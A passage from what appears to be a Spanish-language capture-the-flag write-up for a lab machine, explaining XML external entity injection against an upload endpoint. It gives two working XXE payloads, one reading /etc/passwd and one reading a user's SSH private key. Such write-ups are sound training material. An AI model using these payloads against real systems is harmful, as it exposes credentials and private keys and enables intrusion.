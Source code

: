 ## Vulnerability Assessment {-}

### XXE {-}

Si la web nos reporta el contenido de un campo XML, los attackantes pueden approvechar de una *ENTITY* para remplazar el campo reportado
por el contenido de un fichero interno de la maquina.

En este caso, vemos que el campo **Author** esta reportado en la web y le indicamos que queremos ver el contenido del `/etc/passwd` en su lugar.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Uploadeamos el fichero y si vamos en `http://10.10.10.91:5000/upload/nombre-del-fichero.xml` vemos que podemos ver el contenido del `/etc/passwd` de la 
maquina.

Como hemos visto que havia un usuario llamado **roosa**, intentamos ver si tiene un fichero `id_rsa`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Despues de subir este nuevo fichero podemos ver la id_rsa del usuario roosa.



